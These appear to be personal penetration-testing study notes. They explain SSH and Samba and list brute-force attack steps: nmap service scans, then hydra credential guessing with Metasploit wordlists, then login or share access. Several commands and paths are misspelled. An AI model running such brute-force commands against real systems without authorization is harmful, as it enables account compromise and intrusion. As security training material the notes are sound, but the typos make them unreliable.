     > ==`**_searchsploit <servese>_**`== ⇒ to search for exploit on ExploitDB
    
      
    

  

  

- ==**_Exploiting SSH_**==

> SSH stand a secure shell ⇒ is a remote administrater protocol that offers encryption and is the seccessor to telnet

> on port 22

> the 2 auth way to login ⇒ enter the username and password , the seconed way is the key-based ⇒ this happen through the public key on the server , and the privet key u have and used to gain access and remotly access the system

  

- ==**_Exploit ssh using brute-force attack_**==
    
    1. `nmap -sV <target ip>`
    2. `hydra -L /usr/share/metasploit-freamwork/data/wordlist/common_users.txt -P /usr/share/metasploit-freamwork/data/wordlist/common_password.txt < target ip> -t 4 ssh`
    3. ssh <username>@<target ip> , then enter the password
    
      
    
      
    

  

  

- ==_**Exploiting SAMBA**_==

> SMB ( server message block) is a network file sharing protocol that is used to facilitate the sharing of files and perpherals between computers on a local network (LAN)

> on port 445 , ran on top NetBios using port 139

> So samba is the linux implementation of SMB , that is allow windows system to access linux shares and devices .

  

- ==_Exploit Samba using brute-force attack_==
    
    1. `namp -sV <target ip >`
    2. `hydra -L admin -P /usr/share/metasploit-freamwork/data/wordlist/unix_password.txt < target ip> -t 4 smb`
    3. _==then u can use smbclinet or smbmap to gain access==_
    
      
    

  

  

## Linux Privilege Escalation

### Linux Kernel Exploits
